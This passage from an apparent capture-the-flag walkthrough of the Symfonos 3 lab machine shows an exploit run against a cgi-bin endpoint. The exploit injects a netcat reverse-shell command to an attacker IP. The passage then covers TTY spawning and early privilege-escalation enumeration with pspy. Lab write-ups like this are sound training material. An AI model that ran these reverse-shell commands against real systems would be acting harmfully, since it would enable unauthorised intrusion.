 Now we can get the reverse shell.

* Run

```bash
➜ php bash.php -u http://symfonos.local/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.1.107 4444"
```

* Spawn the shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

And we have a shell.

![](images/sym3/reverse.png)

***
***

## Horizontal Privilege escalation

Since we are in the system let's just run our enumeration script to see if we can find anything.

Obviously(zayotic is very smart :-) we didn't find anything with the enumeration script except that there's another user name `hades`.

We need to keep something in mind, there was a FTP server running, I am not sure why it was there but if we don't find anything on the system then we might have to dig in there.

I started to look around with basic enumeration commands but got nothing. So I decided to run `pspy` to see what all process are running in background.

I noticed something.

![](images/sym3/process.png)

If we try to see the content of that python file we won't be able to cat it because it had `hades` permission.

![](images/sym3/dir.png)
